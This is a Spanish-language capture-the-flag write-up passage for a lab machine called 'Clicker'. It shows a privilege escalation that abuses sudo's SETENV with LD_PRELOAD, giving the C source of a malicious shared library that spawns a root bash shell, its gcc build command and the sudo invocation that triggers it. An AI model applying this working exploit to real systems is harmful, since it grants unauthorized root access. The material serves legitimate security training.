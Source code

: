<div style="text-align: center;">
		<img src="/assets/images/Clicker/envReset.jpg" alt="Clicker-webFilesBackup" width="1000" oncontextmenu="return false;" />
</div>
<br>
Pero en nuestro caso concreto dicho valor asignado a la variable de entorno **LD_PRELOAD**  no sera restablecido gracias a **SETENV**.

Ya que la maquina no cuenta con el compilador **gcc** instalado lo compilaremos en nuestra maquina atancante, posteriormente levantamos un servicio http y 
descargamos en la maquina victima la librería compartida, esta libreria la guardamos en el directorio **tmp** para efectos de tener permisos de escritura. El contenido de la librería compartida es el siguiente.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

para compilar el script realizamos el siguiente comando:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Finalmente ejecutamos el binario para desencadenar el llamado a la libreria maliciosa y obtener una **shell** como el usuario **root**.

```bash
sudo LD_PRELOAD=/tmp/shell.so /opt/monitor.sh
```

<div style="text-align: center;">
		<img src="/assets/images/Clicker/rootShell.jpg" alt="Clicker-webFilesBackup" width="1000" oncontextmenu="return false;" />
</div>
<br>
Si desea obtener mas información o si no te quedo muy claro como elevar privilegios mediante este método te recomiendo que le des un vistazo al 
siguiente [recurso](https://www.youtube.com/watch?v=bzjnIi5u9OQ). 